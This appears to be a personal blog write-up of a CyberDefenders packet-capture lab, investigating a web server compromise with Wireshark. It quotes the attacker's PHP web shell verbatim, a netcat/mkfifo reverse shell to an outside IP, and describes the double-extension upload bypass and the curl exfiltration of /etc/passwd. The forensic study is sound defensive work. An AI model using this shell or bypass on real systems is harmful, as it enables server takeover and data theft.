```yaml
---
layout: post
title: "Web Attack Lab"
author: "Nicholas Coleman"
date: 2025-03-05
tags: cyberdefenders
---
```

### a vulnerable web server
#### the task
*A suspicious file was identified on a company web server, raising alarms within the intranet. The Development team flagged the anomaly, suspecting potential malicious activity. To address the issue, the network team captured critical network traffic and prepared a PCAP file for review.*  
*Your task is to analyze the provided PCAP file to uncover how the file appeared and determine the extent of any unauthorized activity.*

#### Pt. 1
Tasked with finding out what exactly happened that flagged the anomaly, my first goal was to find out where this unauthorized activity was coming from. Going through the packet capture, I noticed that the source IP address, belonging to the potential threat actor, was 117.11.88.124. Using an online IP geolocation service, I was able to quickly find out that this IP was located in Tianjin, China.

![the IP location](/security.github.io/images/ip_geolocation.png)

Although the IP address belonging to someone in China was already a bit suspicious, I needed more evidence of it being malicious. My next plan of action? To find out the User-Agent associated with this address. Since attackers often spoof User-Agent strings to mask the tools they use as legitimate browsers/applications, finding the User-Agent string was imperative.

Since I was already in Wireshark, that wouldn't be too difficult. All that needs to be done is to inspect a captured HTTP GET request. Easily done by following an HTTP stream.

`*Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0*`

It looks like the attacker was using a Linux-based Firefox browser, which could help him blend in with the rest of the traffic. This is valuable information, because it can help detect future attempts easily.

Next, I needed to see if the attacker exploited any vulnerabilities on the company web server. They most likely uploaded malicious code to allow themselves remote control over the server. This is otherwise known as the *web shell*. 

To do that, I needed to isolate all of the HTTP POST requests coming from the attacker's IP address. 

`ip.src == 117.11.88.124 and http.request.method == "POST"`

![The first attempt](/security.github.io/images/fail_attempt_1.png)

Here the attacker is trying to upload a malicious script, innocently named, "image.php". 

Attackers will often name malicious files with innocuous names, so as to avoid suspicion. But the very fact that a mysterious IP address is attempting to inject a PHP script into the company web server is enough by itself.

![Part 2](/security.github.io/images/fail_attempt_2.png)

See their IP address nestled in that PHP script? That alone is suspicious, and supported my conclusion that the attacker was trying to establish a reverse shell. Clearly, they are with the `system` function. It seems this first attempt was a failure however. The company web server's filters were able to stop the malicious file from executing. 

![sucess](/security.github.io/images/attack_success.png)

The second attempt was successful though, and the malicious PHP file was uploaded succesfully. It was able to bypass the server's filtering, most likely because the attacker tricked the filtering mechanism by adding a .jpg extension before the .php extension. This effectively made the server bug out, because it read the .jpg extension first, and probably thouugh it was an innocent photo. 

Well, it wasn't. The input validation mechanism of this server should definitely be updated!

---

#### Pt. 2

My next step was to identify the web server's directory that is used for storing uploaded files. This is crucial to locating the malicious upload, and locating the vulnerable page. To do that, I would have to find the URI identifying that directory. So I entered the following:

`http.request.uri contains "image.jpg.php"`

From there I found out the web server uses the directory: /reviews/uploads/ for storing uploaded files. At this point, mentioning this vulnerability would be my priority in the real world, and as an entry-level analyst I would most likely escalate this issue. Escalation makes sense because the attacker is exploiting important server infrastructure. 

Finding the port used by the attacker was also simple. It is located within the content of the uploaded web shell file. 

`<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 117.11.88.124 8080 >/tmp/f"); ?>`

By examining the content of this file, I was able to notice this part: *nc 117.11.88.124 8080*. This reveals to me that the attacker was using netcat (nc) to attempt to establish a connection back to the attacker's system, while using port 8080. 

This information is vital when investigating a breach such as this one. Finding the port number helps in identifying the attacker's method as well as help in configuring the firewall/IDS systems to block 8080 connections in the future, if they are unneeded. 

My last step involves finding out the exact name of the file that the attacker attempted to exfiltrate. To do that, I entered a query in that would isolate data being sent from the victim web server using port 8080 (the same port the attacker was using). 

`(tcp.port == 8080) && (ip.src == 24.49.63.79)`

![curl evidence](/security.github.io/images/curl_evidence.png)

I was quickly able to find that the attacker used curl to attempt to exfiltrate etc/passwd. Obviously, that is a critical file, as it contains information on all system users. Nowadays, passwords are stored in shadow files, so the passwords are going to be safe. But in terms of value, etc/passwd is extremely useful for attackers. 

It can help them map the network out, and give them knowledge as to areas they can exploit. It is extremely valuable recon intel. 

---

With that, I was finished with the task at hand. This was a fun lab! Using Wireshark to figure out exactly what happened is almost like being a digital detective. It feels like a puzzle waiting to be solved. Although at times it can be frustrating, the process does feel intuitive after a while. 

Here are my findings in a concise 5W format. 

WHO: `117.11.88.124` (located in Tianjin, China)
WHERE: Vulnerable web server, using Port 8080
WHEN: Thu, 30 Nov 2023 18:44:19 GMT
WHAT: Malicious php script uploaded on web server
WHY: For the purpose of exfiltrating etc/passwd

Thank you for reading through my first blog post! More will be coming shortly. I will try and upload most of the labs I work on, if they are in anyway interesting. 
